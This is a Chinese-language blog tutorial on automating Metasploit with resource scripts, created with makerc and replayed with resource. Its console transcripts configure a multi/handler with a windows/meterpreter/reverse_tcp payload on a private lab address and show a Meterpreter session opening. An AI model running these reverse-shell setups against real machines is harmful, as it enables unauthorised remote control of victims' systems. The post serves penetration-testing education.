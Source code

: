 ```yaml
---
layout: post
category: curleyg-code-hack
title: Metasploit资源脚本的使用方法
tagline: by CurleyG
tag: [hack,curleyg-code-hack]
excerpt: Metasploit资源脚本的使用方法
lock: need
---
```


# Metasploit资源脚本的使用方法

Metasploit可以通过资源脚本实现自动化——使用资源脚本可以免去手动设置选项，实现选项的自动化设置，从而节省配置模块选项和攻击载荷所花费的时间。

创建资源脚本有两种方法：手动创建脚本或使用makerc命令创建脚本。makerc命令将之前输入过的所有命令都保存到一个文件中，可以使用resource命令使用这个文件。

```
msf5 > use exploit/multi/handler 
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 192.168.175.128
LHOST => 192.168.175.128
msf5 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf5 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.175.128  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.175.128:4444 
[*] Sending stage (179779 bytes) to 192.168.175.130
[*] Meterpreter session 1 opened (192.168.175.128:4444 -> 192.168.175.130:1025) at 2019-01-25 23:27:58 +0800

meterpreter > exit
[*] Shutting down Meterpreter...

[*] 192.168.175.130 - Meterpreter session 1 closed.  Reason: User exit
msf5 exploit(multi/handler) > makerc
Usage: makerc <output rc file>

Save the commands executed since startup to the specified file.

msf5 exploit(multi/handler) > makerc multi_handler
[*] Saving last 8 commands to multi_handler ...
msf5 exploit(multi/handler) > 
```

这里，我们通过设置攻击载荷和各种选项，成功启动了一个渗透模块handler，输入makerc命令就可以将这些命令保存到一个指定的文件中。在这个示例中是multi_handler文件，我们保存了最近使用的8条命令。

接下来，我们就要通过resource命令使用这个资源文件，达到选项的自动化设置，如下所示：

```
msf5 exploit(multi/handler) > resource multi_handler 
[*] Processing /root/multi_handler for ERB directives.
resource (/root/multi_handler)> use exploit/multi/handler
resource (/root/multi_handler)> set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
resource (/root/multi_handler)> set LHOST 192.168.175.128
LHOST => 192.168.175.128
resource (/root/multi_handler)> set LPORT 4444
LPORT => 4444
resource (/root/multi_handler)> show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.175.128  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


resource (/root/multi_handler)> exploit

[*] Started reverse TCP handler on 192.168.175.128:4444 
```

## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
